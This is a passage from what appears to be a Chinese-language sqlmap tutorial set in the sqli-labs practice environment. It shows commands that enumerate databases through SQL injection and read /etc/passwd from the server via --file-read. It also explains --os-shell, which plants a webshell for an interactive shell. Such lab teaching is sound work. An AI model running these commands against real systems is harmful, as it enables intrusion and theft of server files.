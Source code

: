 ```bash
sqlmap -r "f:\\Desktop\\slq.txt" --dbms=mysql -p uname --dbs --technique=U --flush-session --batch --hex
```

![23](/medias/sqlmap/23.png)


### --file-read,--os-shell,--sql-shell,--output-dir

回到`Less-1`这一关演示。


<pre>
--file-read  读取服务器文件（使用了mysql的load_file函数）
--os-shell   获得一个交互的shell（上传一个webshell，在结束命令执行时，删除自身）
--sql-shell  获得一个交互的sqlshell（可以执行sql语句）
</pre>

使用`--file-read`参数，读取服务器文件

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id --dbms=mysql --file-read=/etc/passwd --flush-session --batch
``` 

读取成功，使用了16进制进行了一次编码，同时保存了一份解码文件在本地的C盘用户目录下
